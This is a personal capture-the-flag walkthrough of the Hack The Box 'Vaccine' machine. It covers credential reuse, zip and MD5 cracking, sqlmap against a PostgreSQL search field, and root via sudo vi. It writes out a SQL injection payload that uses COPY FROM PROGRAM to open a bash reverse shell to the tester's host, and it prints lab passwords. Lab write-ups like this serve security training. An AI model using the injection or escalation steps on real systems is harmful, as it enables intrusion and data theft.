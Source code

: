 # Vaccine Box

This is a linux box CTF on hack the box. It runs a website with a db back end.

This box was quite annoying because HTB targets are shared, multiple people are trying to hack it at once. This leads to other users deleting databases and also removing anything that I did, such as trying to inject a reverse shell. So I had to try at a few different times, sometimes rushing to avoid having what I did undone by another user dropping tables or trying the same attack as I was. 

Tools I used are:

- Kali Linux
- SQLMAP
- Netcat
- NMap
- FTP
- Dirbuster

## Let's begin

I'll start off with an Nmap scan using sV and sC flags.

![ca9f4c71647696cf9e3bc697ecfe9606.png](images/c5d54a90b9274e16a81a8e9cc9eeba00.png)

Looks like we have few services open we can look into: FTP, SSH, HTTP

A quick search in searchsploit re the FTP server shows our only exploit is a DoS which is not helpful for the challenge.

![63db284efd7c00b19ece3f3895c20012.png](images/e5db358b77c44beb98a5f292fce1442d.png)

SSH accepts password login and public key.

![44221525defbc8a2e179558f5f7fe747.png](images/ff3a70b62a9b427489a09760a2ff48f9.png)

We have a MegaCorp login page on port 80.

![837c04721ca366d886de867b75aafb1e.png](images/99280b627a0743de952d12ed6de906ec.png)

Learning from the previous challenge, I'll try the admin credentials we got from Archetype that also worked in the Oopsie CTF, to see if it works on this challenge too. Not luck this time.

Next I'll try dirbuster and see if we can find any interesting folders or files.

![b18420e6906968e08f96a760ac4dc729.png](images/5ba49a0960484c3cb21c71c3c34f099d.png)

After not finding much interesting I hit the forum and it advised that there is a credential in the last challenge that helps with this challenge. I'll load up the Oopsie box again and go hunting.

Hunting around the Oopsie box let to a filezilla configuration file in the /root/.config folder

![22194124f2c948eeaec472464a94903c.png](images/bb6f55e293954765a1275f0d32b3f2a9.png)

here are the creds, we can see this is for IP 10.10.10.46, which is our current target.

ftpuser / mc@F1l3ZilL4

No we're in to the FTP folder with those credentials.

![c421fd7a486b9f2c481ec22bcf481ff6.png](images/bb99e78659a547cb9e17b44c0a92981a.png)

In that folder we can see one file called 'backup.zip'.

I'll grab it and see what's inside.

It looks like that file is password protected.

![28e445b9bb25fe533a19c8a4f44b0ffe.png](images/78d8bc1b1a3b45ceaaa9dbc546620645.png)

I'll try some of the passwords we have from this challenge and the previous challenges.

John was able to crack the password quite easily, I used this guide:

https://linuxconfig.org/how-to-crack-zip-password-on-kali-linux

![a25640398b5c1057dc6d423a90872428.png](images/0f237f8181b549baa3839ce02ceb0879.png)

![642cf763869db963845b356105dbfc44.png](images/bb1585013f5f4bfebc25a810d65a9539.png) ![9e7a169232f149989a71e7aa9317545d.png](images/d229b7253577480db9aab64f0b9915cc.png)

backup.zip:741852963

After unzipping the file the username and md5 password hash is accessible in the index.php file.

![2c7bfd0d5c9ef50e69fd8ac6ab6cccde.png](images/9f066a77e28b4798a490e62771aecafd.png)

MD5 Hash is: 2cb42f8734ea607eefed3b70af13bbd3

Decrypting the hash gives me the following:

admin / qwerty789

Now we're in the web portal.

![90dda03080be6d2a90f1086d1bbed086.png](images/57b5b030a5264191a4457498914b9d66.png)

Time to look around.

There is a search feature on the top right. There appears to be an injection option here as I received an error when trying a simple sql injection attack:

![c12852e8926a61ca0c4d5fdb943ab082.png](images/5803fe22235e404d8cb03fa511a476cd.png)

I'll try to use sqlmap to see if this can get me some info.

I'll use firefox inspector to capture the cookie data that sqlmap requires.

Looks like we have a PostgreSQL db, with possible injection here.

![9d35c642aa2bb38057901c4a6b06cf5b.png](images/286d179f414a4c1f98a63bf325bd87d8.png)

And we got some info

![3fdfd1f49c0eaa4e8f2253b670a7b033.png](images/2341edf52efc44a28ad0609dc39b9fb4.png)

I'll try for a shell.

Note while I was attempting this it appears that the data in the db 'dissappeared' I'm assuming another player dropped the DB. I will come back later, as it happened twice to me within a 30min period.

Coming back after another day, the data was restored to the host so I continued with my testing.

Using SQLMAP I managed to get the database names with 'dbs' flag

![ec3dd5c3a5428f69b68e8dd7680b763c.png](images/339b40ec511549c0b1fc4fe34f022860.png)

I then took a look at the tables in the public DB:

![bd82c049ecd9ff3fc0b5d754867d14a7.png](images/52366a7beb934eafb1c9c0e053c20b12.png)

Then I could obtain the data in that table with the `--dump` sqlmap flag.

![0c1c13af88dc0a61b6563356ecc75b3b.png](images/ff178f5c62ad41cd884920dd87c0b909.png)

I tried a reverse shell, but that did not seem to work with sqlmap.

Next I'll try get the user name and password ofr the db with the `--user` and `--password` flag in sqlmap

![004d2f7b21349506f6c32a642e20f986.png](images/a63a1e1597bc42b5a17e1a052b3efe81.png)

Now I will try to brute force the password with the rockyou.txt password list.

![df06301ea9e3e431f2f468b577d4cf54.png](images/7ba0deda95fe4bf9884edcb753c03747.png)

Unfortunately this did not work, the password must not be in that list.

Since I cannot get an os shell using the sqlmap builtin feature, I'll attempt to get a sql shell.

This worked.

![f7cb0557af2bc926380c22b958bbc5fa.png](images/a7eb7952811147a3a4e6b2304cae7146.png)

Now I will attempt to manually get a reverse shell, this article provides some instructions on performing and testing command injection.

https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5 

I ended up running the following SQL Injection commands directly into the search field of the website to get a reverse shell.

```
'; DROP TABLE IF EXISTS cmd_exec; --

'; CREATE TABLE cmd\_exec(cmd\_output text); --

'; COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.10.14.109/4444 0>&1"'; --
```

This finally led to a remote shell

![8177cf227345ac1b490c788617b91c86.png](images/45f8bbf39b8445bb9ed95abdc3b21cc8.png)

Since the site is user a DB, I will look through the code to see if the DB password is available.

![f9d9214f120a9fc0bc764a328f303940.png](images/4bee4dbb99f342b6a6b566267ce32a80.png)

We can see the DB password and user in the dashboard.php file

![002b28a0a45c4474faa7ac50aac3e5c3.png](images/9031eae6d4454d3f99e684bc35ec26e3.png)

postgres P@s5w0rd!

Note at this point I got kicked off, another user must have dropped my table or reset the box. So I had to redo the above attack again to re-obtain a shell.

Now that I'm back in, I'll upgrade from a simple shell with python3 -c `'import pty; pty.spawn("/bin/sh")'`

![1d6232cad372d13381beeadd0ac75b36.png](images/2aca0bc7ca804d18b98c4fa1b9d1e87a.png)

The user seems to have sudo access using vi, this can be easily exploited since vi can run shell commands. 

![0adc6e11777949fd58880ab1c8f6fc2a.png](images/aa3973eb03654d4dbd372e2339d3d5e7.png)

So I will run the above command as sudo, launching vi as root, then launch a shell with the following command in vi `:!/bin/bash`

Now I have root access

![67f14913f3bb116fa979c0fba90bbe2a.png](images/e91a82718b1743419908373c2d9ef202.png)

Finally for the flag:

![31a9d283550392adf57d52cfcee1d0e3.png](images/93960f37ca164b389c8c28c24c2bc6b2.png)